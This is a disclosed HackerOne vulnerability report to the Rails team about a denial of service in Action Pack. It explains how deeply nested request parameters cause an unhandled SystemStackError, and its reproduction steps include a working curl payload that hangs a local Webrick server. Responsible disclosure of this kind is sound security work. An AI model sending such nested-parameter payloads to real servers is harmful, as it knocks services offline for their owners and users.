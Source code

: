# Denial of Service in Action Pack Exception Handling

## Report Details
- **Report ID**: 42797
- **URL**: https://hackerone.com/reports/42797
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-01-07T20:01:46.370Z
- **Disclosed**: 2015-06-16T21:56:27.776Z

## Reporter
- **Username**: ff7f00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
# Severity

Medium

# Impact

Attackers can cause an application to be unreachable, causing a denial of service condition.

# Details

When a Rails application receives a request with either body or query parameters, these parameters are converted to a params hash. Hashes can be passed to the application in the form of user[name]=foo&user[address]=bar. Action Pack will then convert this into a hash in the form of `{ user[:name] => "foo", user[:address] => "bar" }`. By passing a very large nested hash in the form of nested_hash[X1][X2]...[Xn], it is possible to create a denial of service condition in the form of a SystemStackError that is not handled properly. See the Bug Notes section on my attempt to figure out where this is occurring.

This was tested in the latest Rails 4.2.0 release with Ruby versions ruby-1.9.3-p551, 2.1.5p273, and ruby 2.2.0p0.

Production Webrick and single threaded Thin servers can be taken out with a single request. I set Burp Suite to a high number of concurrent requests and was able to get Heroku to produce a generic application unavailable message on a production application I had hosted, so Unicorn will be effected as well with workers constantly dying and being relaunched.

# Bug Notes

It seems that the initial SystemStackError is thrown during normalize_encode_params(params) in actionpack/lib/action_dispatch/http/parameters.rb, Line 47. This method is then called again during the logging/creating of the exception when the logging code attempts to normalize and encode the parameters again. It's possible that a loop is being hit here every time the SystemStackError occurs.

I set a byebug break point in the GET and POST methods located at actionpack/lib/action_dispatch/http/request.rb, line 299, then set 'catch SystemStackError'. The SystemStackError is raised 2 more times before finally running out of resources and hanging the process. The normalize_encode_params is a recursive method that creates a new hash in a block before calling itself so I believe a lot of resources are being allocated for this method when it gets deep into the nested hash.

# Reproduction Steps

For Webrick:

1. rails new dos_test
2. cd dos_test
3. bundle exec rails generate controller welcome index
4. Uncomment the `root 'welcome#index'` line in config/routes.rb
5. SECRET_KEY_BASE='foo' bundle exec rails s -e production
6. Then in a separate window, run the following cURL command:

```
curl -i -s -k  -X 'GET' \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-binary $'foo[a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a][a]=bar' \
'http://localhost:3000/'
```

Note that Webrick will hang and will have to be killed manually. If the Webrick server handles this level of nesting, more nesting levels can be created by adding [a] until the application hangs.

If you have any questions at all or need clarification, I’d be happy to help.

## Attachments
No attachments
